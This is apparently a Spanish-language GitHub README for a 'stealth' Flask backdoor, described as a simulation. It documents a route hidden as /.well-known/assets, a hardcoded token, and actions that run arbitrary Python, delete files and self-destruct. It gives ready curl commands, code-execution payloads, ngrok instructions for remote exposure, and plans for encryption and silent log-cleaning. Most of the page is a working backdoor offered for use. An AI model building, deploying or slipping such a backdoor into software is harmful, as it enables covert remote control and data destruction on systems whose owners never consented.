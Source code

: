 # 🕵️ Stealth Flask Backdoor


Este microservidor Flask simula una puerta trasera

## 🚀 Funcionalidades

- ✅ Ruta oculta: `POST /.well-known/assets`
- 🔐 Requiere header de autenticación:  
  `X-Auth-Token: U3VwZXJTZWNyZXQ=`  ← base64("SuperSecret")
- 🎯 Acciones disponibles vía parámetro `act`:
  - `act=borrar` → borra todos los archivos en `./books`
  - `act=ejecutar` → ejecuta código Python arbitrario
  - `act=autodestruir` → borra el script `backdoor.py`
- 📁 Genera un registro oculto en `.syslog` con la IP y actividad

---

## 🧪Payloads útiles (acción: `ejecutar`)

| Payload                                             | Descripción                             |
|-----------------------------------------------------|-----------------------------------------|
| `print("Hola mundo")`                              | Imprime en consola del servidor         |
| `open("flag.txt", "w").write("")`                 | Escribe un archivo de texto             |
| `__import__('os').system('ls')`                     | Ejecuta un comando del sistema          |
| `__import__('socket').gethostbyname(...)`           | Obtener la IP del servidor              |
| `__import__('shutil').copy("f", "dest")`            | Copiar archivos                         |


🕵️ Log de Actividad
Todos los accesos exitosos se registran en el archivo .syslog, incluyendo:

```log
Registro: 192.168.0.45
Registro: acción ejecutada
```

🌐 Exposición remota
¿No estás en red pública? Usa ngrok:
```bash
ngrok http 5000
```   
Y luego accede desde cualquier parte del mundo vía HTTPS.


---
## 📦 Ejecución

📡 Activación remota (desde otra máquina)

Agregar el header:

- X-Auth-Token: U3VwZXJTZWNyZXQ=                  

🔥 Ejecutar código Python:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=ejecutar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'open("flag.txt", "w").write("Pwned!")'
```
🧨 Borrar archivos:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=borrar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
💀 Autodestrucción:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=autodestruir" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
```bash
pip install -r requirements.txt
python backdoor.py
```
Accede desde otro sistema:

```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=script" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'print("Backdoor activada")'
```

---

 Mejoras futuras
 
 - Añadir cifrado AES a los scripts

 - Backdoor activada por Redis

 - Modos silenciosos de respuesta (stealth logs, autolimpieza)
